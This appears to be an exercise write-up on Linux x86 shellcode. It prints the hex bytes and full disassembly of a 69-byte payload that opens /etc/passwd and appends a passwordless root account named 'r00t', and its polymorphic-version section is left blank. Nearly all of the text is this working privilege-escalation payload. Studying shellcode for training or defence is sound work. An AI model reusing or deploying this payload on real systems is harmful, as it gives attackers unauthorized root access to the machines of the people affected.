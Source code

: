 ## Initial nasm code

Original shellcode: [Link](http://shell-storm.org/shellcode/files/shellcode-211.php)

Length: 69 bytes

Obtain from running: 

    echo -ne "\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x89\xc3\x6a\x04\x58\x31\xd2\x52\x68\x30\x3a\x3a\x3a\x68\x3a\x3a\x30\x3a\x68\x72\x30\x30\x74\x89\xe1\x6a\x0c\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
    
    00000000  6A05              push byte +0x5
    00000002  58                pop eax
    00000003  31C9              xor ecx,ecx
    00000005  51                push ecx
    00000006  6873737764        push dword 0x64777373
    0000000B  682F2F7061        push dword 0x61702f2f
    00000010  682F657463        push dword 0x6374652f
    00000015  89E3              mov ebx,esp
    00000017  66B90104          mov cx,0x401
    0000001B  CD80              int 0x80
    0000001D  89C3              mov ebx,eax
    0000001F  6A04              push byte +0x4
    00000021  58                pop eax
    00000022  31D2              xor edx,edx
    00000024  52                push edx
    00000025  68303A3A3A        push dword 0x3a3a3a30
    0000002A  683A3A303A        push dword 0x3a303a3a
    0000002F  6872303074        push dword 0x74303072
    00000034  89E1              mov ecx,esp
    00000036  6A0C              push byte +0xc
    00000038  5A                pop edx
    00000039  CD80              int 0x80
    0000003B  6A06              push byte +0x6
    0000003D  58                pop eax
    0000003E  CD80              int 0x80
    00000040  6A01              push byte +0x1
    00000042  58                pop eax
    00000043  CD80              int 0x80
    
  
 ## Polymorphic nasm code

Length: x bytes

Obtain from running: 


